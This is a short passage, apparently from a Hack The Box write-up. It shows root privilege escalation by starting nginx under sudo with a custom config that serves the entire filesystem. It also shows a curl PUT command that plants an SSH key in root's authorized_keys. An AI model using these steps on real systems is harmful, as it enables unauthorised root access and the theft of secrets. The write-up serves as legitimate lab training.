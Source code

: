 I create a very simple nginx.conf file in /tmp:

{% code overflow="wrap" %}
```
user root;
events {
    worker_connections 1024;
}
http {
    server {
        listen 1337;
        root /;
        autoindex on;
    }
}
```
{% endcode %}

Running `sudo /usr/sbin/nginx -c /tmp/nginx.conf` doesnt return any output meaning its successful, navigating to the page with the port I set as 1337:

Voila the entire machine is readable here!

<figure><img src="HacktheBox/.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

And we navigate to /root/root.txt and thats root! We can also get shell as root by using the PUT request:\
`curl -X PUT localhost:1337/root/.ssh/authorized_keys -d 'mysshkey'`

Thanks for reading despite this not being a great writeup, im still learning.

